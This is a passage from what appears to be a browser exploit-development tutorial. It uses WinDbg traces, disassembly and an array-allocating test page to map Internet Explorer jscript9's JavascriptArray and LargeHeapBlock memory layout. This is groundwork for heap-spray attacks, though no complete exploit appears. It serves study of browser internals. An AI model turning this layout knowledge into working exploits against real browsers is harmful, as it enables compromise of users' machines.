6ea9bf88 jscript9!Js::JavascriptArray::DirectSetItem_Full (<no parameter info>) 6eb9d5ee jscript9!Js::JavascriptArray::EntryConcat (<no parameter info>) 6ecd5490 jscript9!Js::JavascriptArray::EntryInfo::ToString = <no type information> 6eb49e52 jscript9!Js::JavascriptArray::GetEnumerator (<no parameter info>) 6ecd5430 jscript9!Js::JavascriptArray::EntryInfo::Reverse = <no type information> 6eb66c77 jscript9!Js::JavascriptArray::EntryIndexOf (<no parameter info>) 6eb93fa5 jscript9!Js::JavascriptArray::EntryEvery (<no parameter info>) 6ecd53e0 jscript9!Js::JavascriptArray::EntryInfo::IsArray = <no type information> 6ec31e6d jscript9!Js::JavascriptArray::JoinOtherHelper (<no parameter info>) 6ec31d73 jscript9!Js::JavascriptArray::sort (<no parameter info>) 6eb94d8c jscript9!Js::JavascriptArray::EntryFilter (<no parameter info>) 6ec32052 jscript9!Js::JavascriptArray::EntryToLocaleString (<no parameter info>) 6ec61e52 jscript9!Js::JavascriptArray::IsConfigurable (<no parameter info>) 6ecd5410 jscript9!Js::JavascriptArray::EntryInfo::Join = <no type information> 6ec31d56 jscript9!Js::JavascriptArray::CompareElements (<no parameter info>) 6eb5f989 jscript9!Js::JavascriptArray::InternalCopyArrayElements<unsigned int> (<no parameter info>) 6eaef6d1 jscript9!Js::JavascriptArray::IsItemEnumerable (<no parameter info>) 6eb9d4cb jscript9!Js::JavascriptArray::EntrySplice (<no parameter info>) 6eacf7f0 jscript9!Js::JavascriptArray::EntryToString (<no parameter info>) 6eb5f956 jscript9!Js::JavascriptArray::CopyArrayElements (<no parameter info>) 6ec325e0 jscript9!Js::JavascriptArray::PrepareDetach (<no parameter info>) 6ecd53f0 jscript9!Js::JavascriptArray::EntryInfo::Push = <no type information> 6ec30a8b jscript9!Js::JavascriptArray::ObjectSpliceHelper<Js::JavascriptArray::BigIndex> (<no parameter info>) 6ec301f7 jscript9!Js::JavascriptArray::DirectSetItemIfNotExist (<no parameter info>) 6ec30083 jscript9!Js::JavascriptArray::SetWritable (<no parameter info>) 6ec30019 jscript9!Js::JavascriptArray::SetConfigurable (<no parameter info>) 6ec31b1d jscript9!Js::JavascriptArray::BigIndex::operator++ (<no parameter info>) 6ecd54b0 jscript9!Js::JavascriptArray::EntryInfo::IndexOf = <no type information> 6eba1498 jscript9!Js::JavascriptArray::EntryPush (<no parameter info>) 6ecd5460 jscript9!Js::JavascriptArray::EntryInfo::Sort = <no type information> 6ec2fcbb jscript9!Js::JavascriptArray::SetItemAttributes (<no parameter info>) 6ea8497f jscript9!Js::JavascriptArray::ArrayElementEnumerator::Init (<no parameter info>) 6ecd5350 jscript9!Js::JavascriptArray::EntryInfo::NewInstance = <no type information> 6eac0596 jscript9!Js::JavascriptArray::EntryPop (<no parameter info>) 6ea82f23 jscript9!Js::JavascriptArray::GetItem (<no parameter info>) 6ec2ffb1 jscript9!Js::JavascriptArray::SetAttributes (<no parameter info>) 6eae718b jscript9!Js::JavascriptArray::GetItemReference (<no parameter info>) 6ec2fd46 jscript9!Js::JavascriptArray::GetDiagTypeString (<no parameter info>) 6eb61889 jscript9!Js::JavascriptArray::DeleteItem (<no parameter info>) 6ecd5450 jscript9!Js::JavascriptArray::EntryInfo::Slice = <no type information> 6ec319be jscript9!Js::JavascriptArray::BigIndex::SetItemIfNotExist (<no parameter info>) 6ecd5530 jscript9!Js::JavascriptArray::EntryInfo::Some = <no type information> 6eb16a13 jscript9!Js::JavascriptArray::EntryJoin (<no parameter info>) 6ecd5470 jscript9!Js::JavascriptArray::EntryInfo::Splice = <no type information> 6ec2fc89 jscript9!Js::JavascriptArray::SetItemAccessors (<no parameter info>) 6ec2ff1d jscript9!Js::JavascriptArray::Seal (<no parameter info>) 6eb5b713 jscript9!Js::JavascriptArray::GetItemSetter (<no parameter info>) 6eb49dc0 jscript9!Js::JavascriptArray::GetEnumerator (<no parameter info>) 6ec30284 jscript9!Js::JavascriptArray::InternalCopyArrayElements<Js::JavascriptArray::BigIndex> (<no parameter info>) 6ec318bb jscript9!Js::JavascriptArray::BigIndex::DeleteItem (<no parameter info>) 6eb94158 jscript9!Js::JavascriptArray::EntryLastIndexOf (<no parameter info>) 6eba4b06 jscript9!Js::JavascriptArray::NewInstance (<no parameter info>) <------------------------- 6ecd5520 jscript9!Js::JavascriptArray::EntryInfo::ReduceRight = <no type information> 6ecd54e0 jscript9!Js::JavascriptArray::EntryInfo::ForEach = <no type information> 6ec31d27 jscript9!Js::JavascriptArray::EnforceCompatModeRestrictions (<no parameter info>) 6ecd5440 jscript9!Js::JavascriptArray::EntryInfo::Shift = <no type information> 6eab5de1 jscript9!Js::JavascriptArray::SetProperty (<no parameter info>) 6ecd5400 jscript9!Js::JavascriptArray::EntryInfo::Concat = <no type information> 6ea5b329 jscript9!Js::JavascriptArray::GetProperty (<no parameter info>) 6ec2ff43 jscript9!Js::JavascriptArray::SetAccessors (<no parameter info>) 6ec2fcea jscript9!Js::JavascriptArray::SetItemWithAttributes (<no parameter info>) 6ea4768d jscript9!Js::JavascriptArray::IsObjectArrayFrozen (<no parameter info>) 6eae0c2c jscript9!Js::JavascriptArray::GetNextIndex (<no parameter info>) 6eab5c21 jscript9!Js::JavascriptArray::Is (<no parameter info>) 6ec3177e jscript9!Js::JavascriptArray::CopyArrayElements (<no parameter info>) 6ec3251d jscript9!Js::JavascriptArray::SetLength (<no parameter info>) 6eb28b61 jscript9!Js::JavascriptArray::JavascriptArray (<no parameter info>) 6eaeb83a jscript9!Js::JavascriptArray::ArraySpliceHelper (<no parameter info>) 6eac3a16 jscript9!Js::JavascriptArray::AllocateHead (<no parameter info>) 6eaffed4 jscript9!Js::JavascriptArray::SetPropertyWithAttributes (<no parameter info>) 6ead00ce jscript9!Js::JavascriptArray::HasProperty (<no parameter info>) 6ecd54d0 jscript9!Js::JavascriptArray::EntryInfo::Filter = <no type information> 6ec3190f jscript9!Js::JavascriptArray::BigIndex::SetItem (<no parameter info>) 6eae60d3 jscript9!Js::JavascriptArray::EntryMap (<no parameter info>) 6eb16a9c jscript9!Js::JavascriptArray::JoinHelper (<no parameter info>) 6ec31b46 jscript9!Js::JavascriptArray::BigIndex::ToNumber (<no parameter info>) 6ea84a80 jscript9!Js::JavascriptArray::ArrayElementEnumerator::ArrayElementEnumerator (<no parameter info>) 6ea8495b jscript9!Js::JavascriptArray::IsAnyArrayTypeId (<no parameter info>) 6ec2fd1c jscript9!Js::JavascriptArray::GetSpecialNonEnumerablePropertyName (<no parameter info>) 6ec31bd5 jscript9!Js::JavascriptArray::BigIndex::IsSmallIndex (<no parameter info>) 6eba157a jscript9!Js::JavascriptArray::EntryForEach (<no parameter info>) 6ea83044 jscript9!Js::JavascriptArray::SetItem (<no parameter info>) 6ec3050a jscript9!Js::JavascriptArray::ToLocaleString<Js::RecyclableObject> (<no parameter info>) 6ea534e0 jscript9!Js::JavascriptArray::DirectGetItemAt (<no parameter info>) 6ecd5420 jscript9!Js::JavascriptArray::EntryInfo::Pop = <no type information> 6ea59b2d jscript9!Js::JavascriptArray::ForInLoop (<no parameter info>) 6eafff78 jscript9!Js::JavascriptArray::GetSetter (<no parameter info>) 6eb4ec30 jscript9!Js::JavascriptArray::ArraySegmentSpliceHelper (<no parameter info>) 6eb78e45 jscript9!Js::JavascriptArray::EntryReduce (<no parameter info>) 6eb6697d jscript9!Js::JavascriptArray::DirectGetItemAtFull (<no parameter info>) 6ec32167 jscript9!Js::JavascriptArray::EntryReduceRight (<no parameter info>) 6eba717f jscript9!Js::JavascriptArray::EntryShift (<no parameter info>) 6eb99706 jscript9!Js::JavascriptArray::MarshalToScriptContext (<no parameter info>) 6ecd54c0 jscript9!Js::JavascriptArray::EntryInfo::Every = <no type information> 6ec3196b jscript9!Js::JavascriptArray::BigIndex::DeleteItem (<no parameter info>) 6eb7c0ba jscript9!Js::JavascriptArray::PreventExtensions (<no parameter info>) 6ecd5480 jscript9!Js::JavascriptArray::EntryInfo::ToLocaleString = <no type information> 6eb93f8b jscript9!Js::JavascriptArray::DeleteProperty (<no parameter info>) 6ec303b9 jscript9!Js::JavascriptArray::Unshift<unsigned int> (<no parameter info>) 6ea849d5 jscript9!Js::JavascriptArray::FillFromPrototypes (<no parameter info>) 6ea5b3cf jscript9!Js::JavascriptArray::GetPropertyReference (<no parameter info>) 6ec317e1 jscript9!Js::JavascriptArray::TruncateToProperties (<no parameter info>) 6eabfc81 jscript9!Js::JavascriptArray::EntrySlice (<no parameter info>) 6eae20b0 jscript9!Js::JavascriptArray::JoinToString (<no parameter info>) 6ec30ca8 jscript9!Js::JavascriptArray::ConcatArgs<Js::JavascriptArray::BigIndex> (<no parameter info>) 6ea5c2be jscript9!Js::JavascriptArray::OP_NewScArray (<no parameter info>) 6eb1682e jscript9!Js::JavascriptArray::JoinArrayHelper (<no parameter info>) 6ec31f63 jscript9!Js::JavascriptArray::GetFromLastIndex (<no parameter info>) 6eb618a1 jscript9!Js::JavascriptArray::DirectDeleteItemAt (<no parameter info>) 6ead497d jscript9!Js::JavascriptArray::MakeCopyOnWriteObject (<no parameter info>) 6eb4c512 jscript9!Js::JavascriptArray::EnsureHeadStartsFromZero (<no parameter info>) 6ec31c24 jscript9!Js::JavascriptArray::ToLocaleStringHelper (<no parameter info>) 6eae0be6 jscript9!Js::JavascriptArray::GetBeginLookupSegment (<no parameter info>) 6ecd54a0 jscript9!Js::JavascriptArray::EntryInfo::Unshift = <no type information>
This line looks promising:
6eba4b06 jscript9!Js::JavascriptArray::NewInstance (<no parameter info>)
Let’s put a breakpoint on it and let’s see if this time we’re lucky.
0:006> bc * 0:006> bp jscript9!Js::JavascriptArray::NewInstance
Close the dialog box in IE, reload the page and close the starting dialog. This time everything goes according to plans:
{kind=link}
By stepping through the code we get to the following piece of code:
6eb02a3c 682870a46e push offset jscript9!Recycler::Alloc (6ea47028) 6eb02a41 ff770c push dword ptr [edi+0Ch] 6eb02a44 6a20 push 20h 6eb02a46 e84546f4ff call jscript9!operator new<Recycler> (6ea47090) <------------------- 6eb02a4b 8bf0 mov esi,eax <--------- ESI = allocated block 6eb02a4d 83c40c add esp,0Ch 6eb02a50 85f6 test esi,esi 6eb02a52 0f841d210a00 je jscript9!Js::JavascriptArray::NewInstance+0x390 (6eba4b75) 6eb02a58 8b8f00010000 mov ecx,dword ptr [edi+100h] 6eb02a5e 894e04 mov dword ptr [esi+4],ecx 6eb02a61 c706b02fa46e mov dword ptr [esi],offset jscript9!Js::DynamicObject::`vftable' (6ea42fb0) 6eb02a67 c7460800000000 mov dword ptr [esi+8],0 6eb02a6e c7460c01000000 mov dword ptr [esi+0Ch],1 6eb02a75 8b4118 mov eax,dword ptr [ecx+18h] 6eb02a78 8a4005 mov al,byte ptr [eax+5]
The operator new is called as follows:
operator new(20h, arg, jscript9!Recycler::Alloc);
Let’s look at the code of the operator new:
jscript9!operator new<Recycler>: 6ea47090 8bff mov edi,edi 6ea47092 55 push ebp 6ea47093 8bec mov ebp,esp 6ea47095 ff7508 push dword ptr [ebp+8] <----- push 20h 6ea47098 8b4d0c mov ecx,dword ptr [ebp+0Ch] 6ea4709b ff5510 call dword ptr [ebp+10h] <----- call jscript9!Recycler::Alloc 6ea4709e 5d pop ebp 6ea4709f c3 ret
Let’s go back to the main code:
6eb02a3c 682870a46e push offset jscript9!Recycler::Alloc (6ea47028) 6eb02a41 ff770c push dword ptr [edi+0Ch] 6eb02a44 6a20 push 20h 6eb02a46 e84546f4ff call jscript9!operator new<Recycler> (6ea47090) <------------------- 6eb02a4b 8bf0 mov esi,eax <--------- ESI = allocated block 6eb02a4d 83c40c add esp,0Ch 6eb02a50 85f6 test esi,esi 6eb02a52 0f841d210a00 je jscript9!Js::JavascriptArray::NewInstance+0x390 (6eba4b75) 6eb02a58 8b8f00010000 mov ecx,dword ptr [edi+100h] 6eb02a5e 894e04 mov dword ptr [esi+4],ecx 6eb02a61 c706b02fa46e mov dword ptr [esi],offset jscript9!Js::DynamicObject::`vftable' (6ea42fb0) 6eb02a67 c7460800000000 mov dword ptr [esi+8],0 6eb02a6e c7460c01000000 mov dword ptr [esi+0Ch],1 6eb02a75 8b4118 mov eax,dword ptr [ecx+18h] 6eb02a78 8a4005 mov al,byte ptr [eax+5] 6eb02a7b a808 test al,8 6eb02a7d 0f85e8200a00 jne jscript9!Js::JavascriptArray::NewInstance+0x386 (6eba4b6b) 6eb02a83 b803000000 mov eax,3 6eb02a88 89460c mov dword ptr [esi+0Ch],eax 6eb02a8b 8b4104 mov eax,dword ptr [ecx+4] ds:002b:060e9a64=060fb000 6eb02a8e 8b4004 mov eax,dword ptr [eax+4] 6eb02a91 8b4918 mov ecx,dword ptr [ecx+18h] 6eb02a94 8bb864040000 mov edi,dword ptr [eax+464h] 6eb02a9a 8b01 mov eax,dword ptr [ecx] 6eb02a9c ff5014 call dword ptr [eax+14h] 6eb02a9f 8b4e04 mov ecx,dword ptr [esi+4] 6eb02aa2 8b4918 mov ecx,dword ptr [ecx+18h] 6eb02aa5 8b4908 mov ecx,dword ptr [ecx+8] 6eb02aa8 3bc1 cmp eax,ecx 6eb02aaa 0f8f0d9f1900 jg jscript9!memset+0x31562 (6ec9c9bd) 6eb02ab0 8b4604 mov eax,dword ptr [esi+4] 6eb02ab3 c7063025a46e mov dword ptr [esi],offset jscript9!Js::JavascriptArray::`vftable' (6ea42530) 6eb02ab9 c7461c00000000 mov dword ptr [esi+1Ch],0 6eb02ac0 8b4004 mov eax,dword ptr [eax+4]
The important instruction is
6eb02ab3 c7063025a46e mov dword ptr [esi],offset jscript9!Js::JavascriptArray::`vftable' (6ea42530)
which overwrites the first dword of the block of memory with the vftable of a JavascriptArray.
Then another important part of code follows:
6eb02ac3 8b4004 mov eax,dword ptr [eax+4] 6eb02ac6 8b8864040000 mov ecx,dword ptr [eax+464h] 6eb02acc 6a50 push 50h <------- 50h bytes? 6eb02ace c7461000000000 mov dword ptr [esi+10h],0 6eb02ad5 e80769f4ff call jscript9!Recycler::AllocZero (6ea493e1) <------ allocates a block 6eb02ada c70000000000 mov dword ptr [eax],0 6eb02ae0 c7400400000000 mov dword ptr [eax+4],0 6eb02ae7 c7400810000000 mov dword ptr [eax+8],10h 6eb02aee c7400c00000000 mov dword ptr [eax+0Ch],0 6eb02af5 894618 mov dword ptr [esi+18h],eax <------ look at the following picture 6eb02af8 894614 mov dword ptr [esi+14h],eax <------ look at the following picture 6eb02afb e951200a00 jmp jscript9!Js::JavascriptArray::NewInstance+0x24f (6eba4b51)
The following picture shows what happens in the piece of code above:
{kind=link}
Now we have two important addresses:
239d9340 address of the JavascriptArray 2c1460a0 structure pointed to by the JavascriptArray
Let’s delete the breakpoint and resume program execution. When the Done dialog box pops up, go back to WinDbg. Now break the execution in WinDbg and have another look at the address 239d9340h:
{kind=link}
As we can see, now our JavascriptArray (at offsets 0x14 and 0x18) points to a different address. Because a JavascriptArray is growable, it’s likely that when a bigger buffer is allocated the two pointers at 0x14 and 0x18 are updated to refer to the new buffer. We can also see that the JavascriptArray at 239d9340 corresponds to the array a in the javascript code. Indeed, it contains 10000h references to other arrays.
We saw that the JavascriptArray object is allocated in jscript9!Js::JavascriptArray::NewInstance:
6eb02a46 e84546f4ff call jscript9!operator new<Recycler> (6ea47090) <------------------- 6eb02a4b 8bf0 mov esi,eax <--------- ESI = allocated block
If at this point we return from jscript9!Js::JavascriptArray::NewInstance by pressing Shift+F11, we see the following code:
6ea125cc ff75ec push dword ptr [ebp-14h] 6ea125cf ff75e8 push dword ptr [ebp-18h] 6ea125d2 ff55e4 call dword ptr [ebp-1Ch] (jscript9!Js::JavascriptArray::NewInstance) 6ea125d5 8b65e0 mov esp,dword ptr [ebp-20h] ss:002b:04d2c0e0=04d2c0c4
After the call to NewInstance, EAX points to the JavascriptArray structure. So, we can put a breakpoint either at 6eb02a4b or at 6ea125d5. Let’s choose the latter:
bp jscript9+425d5 ".printf \"new Array: addr = 0x%p\\n\",eax;g"
Here’s what we discovered so far:
{kind=link}
LargeHeapBlock
What is a LargeHeapBlock? Let’s try to find some related symbols:
0:007> x jscript9!*largeheapblock* 6f696af3 jscript9!HeapInfo::DeleteLargeHeapBlockList (<no parameter info>) 6f5d654d jscript9!HeapInfo::ReinsertLargeHeapBlock (<no parameter info>) 6f6a8699 jscript9!LargeHeapBlock::SweepObjects<2> (<no parameter info>) 6f6ab0cf jscript9!LargeHeapBlock::IsValidObject (<no parameter info>) 6f6a82a8 jscript9!LargeHeapBlock::SweepObjects<1> (<no parameter info>) 6f755d4d jscript9!LargeHeapBlock::GetHeader (<no parameter info>) 6f5a160e jscript9!LargeHeapBlock::ResetMarks (<no parameter info>) 6f5a0672 jscript9!LargeHeapBlock::Rescan (<no parameter info>) 6f59f32f jscript9!LargeHeapBlock::IsObjectMarked (<no parameter info>) 6f59a7ca jscript9!HeapInfo::AddLargeHeapBlock (<no parameter info>) <------------------------ 6f657a87 jscript9!LargeHeapBlock::AddObjectToFreeList (<no parameter info>) 6f755f80 jscript9!LargeHeapBlock::Alloc (<no parameter info>) <-------------------------- 6f755dba jscript9!LargeHeapBlock::GetObjectHeader (<no parameter info>) 6f755b43 jscript9!HeapBucket::EnumerateObjects<LargeHeapBlock> (<no parameter info>) 6f755daf jscript9!LargeHeapBlock::GetRealAddressFromInterior (<no parameter info>) 6f755dee jscript9!LargeHeapBlock::SetMemoryProfilerOldObjectBit (<no parameter info>) 6f755d9b jscript9!LargeHeapBlock::GetObjectSize (<no parameter info>) 6f5a096b jscript9!HeapInfo::Rescan<LargeHeapBlock> (<no parameter info>) 6f696b24 jscript9!LargeHeapBlock::ReleasePagesShutdown (<no parameter info>) 6f755e23 jscript9!LargeHeapBlock::SetObjectMarkedBit (<no parameter info>) 6f755eaf jscript9!LargeHeapBlock::FinalizeObjects (<no parameter info>) 6f59ef52 jscript9!LargeHeapBlock::SweepObjects<0> (<no parameter info>) 6f755e66 jscript9!LargeHeapBlock::TestObjectMarkedBit (<no parameter info>) 6f755daf jscript9!LargeHeapBlock::MarkInterior (<no parameter info>) 6f596e18 jscript9!LargeHeapBlock::`vftable' = <no type information>
Here are the most promising functions:
6f59a7ca jscript9!HeapInfo::AddLargeHeapBlock (<no parameter info>) 6f755f80 jscript9!LargeHeapBlock::Alloc (<no parameter info>)
Let’s put a breakpoint on both of them and reload the page in IE. When we close the Start dialog box, the first breakpoint is triggered and we end up here:
6f59a7c5 90 nop 6f59a7c6 90 nop 6f59a7c7 90 nop 6f59a7c8 90 nop 6f59a7c9 90 nop jscript9!HeapInfo::AddLargeHeapBlock: 6f59a7ca 8bff mov edi,edi <------------ we are here 6f59a7cc 55 push ebp 6f59a7cd 8bec mov ebp,esp 6f59a7cf 83ec1c sub esp,1Ch 6f59a7d2 53 push ebx 6f59a7d3 56 push esi 6f59a7d4 8b750c mov esi,dword ptr [ebp+0Ch]
Let’s also look at the stack trace:
0:007> k 10 ChildEBP RetAddr 04dbbc90 6f59a74d jscript9!HeapInfo::AddLargeHeapBlock 04dbbcb4 6f5a72d8 jscript9!Recycler::LargeAlloc+0x66 04dbbcd0 6f652c47 jscript9!Recycler::AllocZero+0x91 04dbbd10 6f5d2aae jscript9!Js::JavascriptArray::DirectSetItem_Full+0x3fd 04dbbd98 6f5fed13 jscript9!Js::JavascriptOperators::OP_SetElementI+0x1e0 04dbbf34 6f5a5cf5 jscript9!Js::InterpreterStackFrame::Process+0x3579 04dbc084 03fd0fe9 jscript9!Js::InterpreterStackFrame::InterpreterThunk<1>+0x305 WARNING: Frame IP not in any known module. Following frames may be wrong. 04dbc090 6f5a1f60 0x3fd0fe9 04dbc110 6f5a20ca jscript9!Js::JavascriptFunction::CallRootFunction+0x140 04dbc128 6f5a209f jscript9!Js::JavascriptFunction::CallRootFunction+0x19 04dbc170 6f5a2027 jscript9!ScriptSite::CallRootFunction+0x40 04dbc198 6f64df75 jscript9!ScriptSite::Execute+0x61 04dbc224 6f64db57 jscript9!ScriptEngine::ExecutePendingScripts+0x1e9 04dbc2ac 6f64e0b7 jscript9!ScriptEngine::ParseScriptTextCore+0x2ad 04dbc300 6e2db60c jscript9!ScriptEngine::ParseScriptText+0x5b 04dbc338 6e2d945d MSHTML!CActiveScriptHolder::ParseScriptText+0x42
Very interesting! A LargeHeapBlock is created by LargeAlloc (called by AllocZero) when the first item of a JavascriptArray is assigned to. Let’s return from AddLargeHeapBlock by pressing Shift+F11 and look at the memory pointed to by EAX:
0:007> dd eax
25fcbe80 6f596e18 00000003 046b1000 00000002
25fcbe90 00000000 00000000 00000004 046b1000
25fcbea0 046b3000 25fcbee0 00000000 00000000
25fcbeb0 00000000 00000000 04222e98 00000000
25fcbec0 00000000 00000000 00000000 00000004
25fcbed0 00000000 00000000 734a1523 8c000000
25fcbee0 6f596e18 00000003 046a6000 00000003
25fcbef0 00000002 00000000 00000004 046a8820
0:007> ln poi(eax)
(6f596e18) jscript9!LargeHeapBlock::`vftable' | (6f596e3c) jscript9!PageSegment::`vftable'
Exact matches:
jscript9!LargeHeapBlock::`vftable' = <no type information>So, EAX points to the LargeHeapBlock just created. Let’s see if this block was allocated directly on the heap:
0:007> !heap -p -a @eax
address 25fcbe80 found in
_HEAP @ 300000
HEAP_ENTRY Size Prev Flags UserPtr UserSize - state
25fcbe78 000c 0000 [00] 25fcbe80 00054 - (busy)
jscript9!LargeHeapBlock::`vftable'Yes, it was! It’s size is 0x54 bytes and is preceded by an allocation header of 8 bytes (UserPtr – HEAP_ENTRY == 8). That’s all we need to know.
We can put a breakpoint right after the call to AddLargeHeapBlock:
bp jscript9!Recycler::LargeAlloc+0x66 ".printf \"new LargeHeapBlock: addr = 0x%p\\n\",eax;g"
We should have a look at a LargeHeapBlock. First, let’s change the javascript code a bit so that fewer LargeHeapBlock are created:
<html>
<head>
<script language="javascript">
alert("Start");
var a = new Array();
for (var i = 0; i < 0x100; ++i) { // <------ just 0x100
a[i] = new Array(0x1000/4);
a[i][0] = 0x7fffffff;
a[i][1] = -2;
a[i][2] = 1.2345;
a[i][3] = document.createElement("div");
}
alert("Done");
</script>
</head>
<body>
</body>
</html>
Set the breakpoint we just saw:
bp jscript9!Recycler::LargeAlloc+0x66 ".printf \"new LargeHeapBlock: addr = 0x%p\\n\",eax;g"
Now reload the page in IE and close the first dialog box.
Your output should look similar to this:
new LargeHeapBlock: addr = 0x042a7368 new LargeHeapBlock: addr = 0x042a73c8 new LargeHeapBlock: addr = 0x042a7428 new LargeHeapBlock: addr = 0x042a7488 new LargeHeapBlock: addr = 0x042a74e8 new LargeHeapBlock: addr = 0x042a7548 new LargeHeapBlock: addr = 0x042a75a8 new LargeHeapBlock: addr = 0x042a7608 new LargeHeapBlock: addr = 0x042a7668 new LargeHeapBlock: addr = 0x042a76c8 new LargeHeapBlock: addr = 0x042a7728 new LargeHeapBlock: addr = 0x042a7788 new LargeHeapBlock: addr = 0x042a77e8 new LargeHeapBlock: addr = 0x042a7848 new LargeHeapBlock: addr = 0x042a78a8 new LargeHeapBlock: addr = 0x042a7908 new LargeHeapBlock: addr = 0x042a7968 new LargeHeapBlock: addr = 0x042a79c8 new LargeHeapBlock: addr = 0x042a7a28 new LargeHeapBlock: addr = 0x042a7a88 new LargeHeapBlock: addr = 0x042a7ae8 new LargeHeapBlock: addr = 0x042a7b48 new LargeHeapBlock: addr = 0x042a7ba8 new LargeHeapBlock: addr = 0x042a7c08 new LargeHeapBlock: addr = 0x042a7c68 new LargeHeapBlock: addr = 0x042a7cc8 new LargeHeapBlock: addr = 0x042a7d28 new LargeHeapBlock: addr = 0x042a7d88 new LargeHeapBlock: addr = 0x042a7de8 new LargeHeapBlock: addr = 0x042a7e48 new LargeHeapBlock: addr = 0x042a7ea8 new LargeHeapBlock: addr = 0x042a7f08 new LargeHeapBlock: addr = 0x042a7f68 new LargeHeapBlock: addr = 0x042a7fc8 new LargeHeapBlock: addr = 0x042a8028 new LargeHeapBlock: addr = 0x042a8088 new LargeHeapBlock: addr = 0x042a80e8 new LargeHeapBlock: addr = 0x134a9020 new LargeHeapBlock: addr = 0x134a9080 new LargeHeapBlock: addr = 0x134a90e0 new LargeHeapBlock: addr = 0x134a9140 new LargeHeapBlock: addr = 0x134a91a0 new LargeHeapBlock: addr = 0x134a9200 new LargeHeapBlock: addr = 0x134a9260 new LargeHeapBlock: addr = 0x134a92c0 new LargeHeapBlock: addr = 0x134a9320 new LargeHeapBlock: addr = 0x134a9380 new LargeHeapBlock: addr = 0x134a93e0 new LargeHeapBlock: addr = 0x134a9440 new LargeHeapBlock: addr = 0x134a94a0 new LargeHeapBlock: addr = 0x134a9500 new LargeHeapBlock: addr = 0x134a9560 new LargeHeapBlock: addr = 0x134a95c0 new LargeHeapBlock: addr = 0x134a9620 new LargeHeapBlock: addr = 0x134a9680 new LargeHeapBlock: addr = 0x134a96e0 new LargeHeapBlock: addr = 0x134a9740 new LargeHeapBlock: addr = 0x134a97a0 new LargeHeapBlock: addr = 0x134a9800 new LargeHeapBlock: addr = 0x134a9860 new LargeHeapBlock: addr = 0x134a98c0 new LargeHeapBlock: addr = 0x134a9920 new LargeHeapBlock: addr = 0x134a9980 new LargeHeapBlock: addr = 0x134a99e0 new LargeHeapBlock: addr = 0x134a9a40 new LargeHeapBlock: addr = 0x134a9aa0 new LargeHeapBlock: addr = 0x134a9b00 new LargeHeapBlock: addr = 0x134a9b60 new LargeHeapBlock: addr = 0x134a9bc0 new LargeHeapBlock: addr = 0x134a9c20 new LargeHeapBlock: addr = 0x134a9c80 new LargeHeapBlock: addr = 0x134a9ce0 new LargeHeapBlock: addr = 0x134a9d40 new LargeHeapBlock: addr = 0x134a9da0 new LargeHeapBlock: addr = 0x134a9e00 new LargeHeapBlock: addr = 0x134a9e60 new LargeHeapBlock: addr = 0x134a9ec0 new LargeHeapBlock: addr = 0x134a9f20 new LargeHeapBlock: addr = 0x134a9f80 new LargeHeapBlock: addr = 0x1380e060 new LargeHeapBlock: addr = 0x1380e0c0 new LargeHeapBlock: addr = 0x1380e120 new LargeHeapBlock: addr = 0x1380e180 new LargeHeapBlock: addr = 0x1380e1e0 new LargeHeapBlock: addr = 0x1380e240 new LargeHeapBlock: addr = 0x1380e2a0 new LargeHeapBlock: addr = 0x1380e300 new LargeHeapBlock: addr = 0x1380e360 new LargeHeapBlock: addr = 0x1380e3c0 new LargeHeapBlock: addr = 0x1380e420 new LargeHeapBlock: addr = 0x1380e480 new LargeHeapBlock: addr = 0x1380e4e0 new LargeHeapBlock: addr = 0x1380e540 new LargeHeapBlock: addr = 0x1380e5a0 new LargeHeapBlock: addr = 0x1380e600 new LargeHeapBlock: addr = 0x1380e660 new LargeHeapBlock: addr = 0x1380e6c0 new LargeHeapBlock: addr = 0x1380e720 new LargeHeapBlock: addr = 0x1380e780 new LargeHeapBlock: addr = 0x1380e7e0 new LargeHeapBlock: addr = 0x1380e840 new LargeHeapBlock: addr = 0x1380e8a0 new LargeHeapBlock: addr = 0x1380e900 new LargeHeapBlock: addr = 0x1380e960 new LargeHeapBlock: addr = 0x1380e9c0 new LargeHeapBlock: addr = 0x1380ea20 new LargeHeapBlock: addr = 0x1380ea80 new LargeHeapBlock: addr = 0x1380eae0 new LargeHeapBlock: addr = 0x1380eb40 new LargeHeapBlock: addr = 0x1380eba0 new LargeHeapBlock: addr = 0x1380ec00 new LargeHeapBlock: addr = 0x1380ec60 new LargeHeapBlock: addr = 0x1380ecc0 new LargeHeapBlock: addr = 0x1380ed20 new LargeHeapBlock: addr = 0x1380ed80 new LargeHeapBlock: addr = 0x1380ede0 new LargeHeapBlock: addr = 0x1380ee40 new LargeHeapBlock: addr = 0x1380eea0 new LargeHeapBlock: addr = 0x1380ef00 new LargeHeapBlock: addr = 0x1380ef60 new LargeHeapBlock: addr = 0x1380efc0 new LargeHeapBlock: addr = 0x16ccb020 new LargeHeapBlock: addr = 0x16ccb080 new LargeHeapBlock: addr = 0x16ccb0e0 new LargeHeapBlock: addr = 0x16ccb140 new LargeHeapBlock: addr = 0x16ccb1a0 new LargeHeapBlock: addr = 0x16ccb200 new LargeHeapBlock: addr = 0x16ccb260 new LargeHeapBlock: addr = 0x16ccb2c0 new LargeHeapBlock: addr = 0x16ccb320 new LargeHeapBlock: addr = 0x16ccb380 new LargeHeapBlock: addr = 0x16ccb3e0 new LargeHeapBlock: addr = 0x16ccb440 new LargeHeapBlock: addr = 0x16ccb4a0 new LargeHeapBlock: addr = 0x16ccb500 new LargeHeapBlock: addr = 0x16ccb560 new LargeHeapBlock: addr = 0x16ccb5c0 new LargeHeapBlock: addr = 0x16ccb620 new LargeHeapBlock: addr = 0x16ccb680 new LargeHeapBlock: addr = 0x16ccb6e0 new LargeHeapBlock: addr = 0x16ccb740 new LargeHeapBlock: addr = 0x16ccb7a0 new LargeHeapBlock: addr = 0x16ccb800 new LargeHeapBlock: addr = 0x16ccb860 new LargeHeapBlock: addr = 0x16ccb8c0 new LargeHeapBlock: addr = 0x16ccb920 new LargeHeapBlock: addr = 0x16ccb980 new LargeHeapBlock: addr = 0x16ccb9e0 new LargeHeapBlock: addr = 0x16ccba40 new LargeHeapBlock: addr = 0x16ccbaa0 new LargeHeapBlock: addr = 0x16ccbb00 new LargeHeapBlock: addr = 0x16ccbb60 new LargeHeapBlock: addr = 0x16ccbbc0 new LargeHeapBlock: addr = 0x16ccbc20 new LargeHeapBlock: addr = 0x16ccbc80 new LargeHeapBlock: addr = 0x16ccbce0 new LargeHeapBlock: addr = 0x16ccbd40 new LargeHeapBlock: addr = 0x16ccbda0 new LargeHeapBlock: addr = 0x16ccbe00 new LargeHeapBlock: addr = 0x16ccbe60 new LargeHeapBlock: addr = 0x16ccbec0 new LargeHeapBlock: addr = 0x16ccbf20 new 